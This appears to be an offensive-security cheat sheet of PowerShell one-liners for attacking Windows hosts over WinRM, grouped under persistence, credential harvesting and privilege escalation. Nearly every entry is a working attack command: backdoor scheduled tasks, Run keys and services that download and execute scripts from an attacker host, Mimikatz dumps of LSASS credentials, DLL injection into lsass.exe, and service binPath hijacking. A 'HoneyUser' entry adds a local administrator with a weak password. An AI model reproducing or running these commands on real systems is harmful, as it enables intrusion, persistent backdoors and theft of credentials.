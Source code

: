 #### Persistence

1. **Creating a Scheduled Task via WinRM**: Creates a persistent backdoor by scheduling a task that runs a malicious script every time the system starts.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { schtasks /create /tn "Backdoor" /tr "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://<attack_ip>/backdoor.ps1')" /sc onstart /ru SYSTEM } -Credential <username>
    ```
2. **Modifying Registry Keys for Persistence**: Modifies registry keys to ensure that a backdoor script runs on every system startup.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' -Name 'Backdoor' -Value 'powershell -c IEX(New-Object Net.WebClient).DownloadString('http://<attack_ip>/backdoor.ps1')' } -Credential <username>
    ```
3. **Deploying a Service for Persistent Access**: Deploys a persistent service on the remote system that executes a PowerShell backdoor.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { New-Service -Name "BackdoorService" -BinaryPathName "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://<attack_ip>/backdoor.ps1')" -Credential (Get-Credential) -Description "Persistent backdoor service" -StartupType Automatic } -Credential <username>
    ```

#### Credential Harvesting

1. **Extracting Credentials from Memory**: Executes Mimikatz on the remote system to extract credentials from memory.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { IEX (New-Object Net.WebClient).DownloadString('http://<attack_ip>/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'sekurlsa::logonpasswords' } -Credential <username>
    ```
2. **Harvesting Credentials from LSASS**: Runs Mimikatz against the LSASS process to harvest credentials.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Start-Process -FilePath 'powershell.exe' -ArgumentList '-c IEX (New-Object Net.WebClient).DownloadString('http://<attack_ip>/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'' -Credential (Get-Credential) }
    ```
3. **Creating a HoneyUser**: Creates a decoy user account on the remote system to monitor unauthorized use and potentially capture attackers' credentials.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { net user HoneyUser Password123! /add; net localgroup Administrators HoneyUser /add } -Credential <username>
    ```

#### Privilege Escalation

1. **Escalating Privileges Using `Invoke-DllInjection`**: Injects a malicious DLL into a privileged process to escalate privileges.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { IEX (New-Object Net.WebClient).DownloadString('http://<attack_ip>/Invoke-DllInjection.ps1'); Invoke-DllInjection -ProcessName 'lsass.exe' -DllPath 'C:\Path\To\Dll.dll' } -Credential <username>
    ```
2. **Exploiting Weak Service Permissions**: Modifies the binary path of a weakly configured service to escalate privileges.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { sc.exe config weak_service binPath= "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://<attack_ip>/priv_esc.ps1')" } -Credential <username>
    ```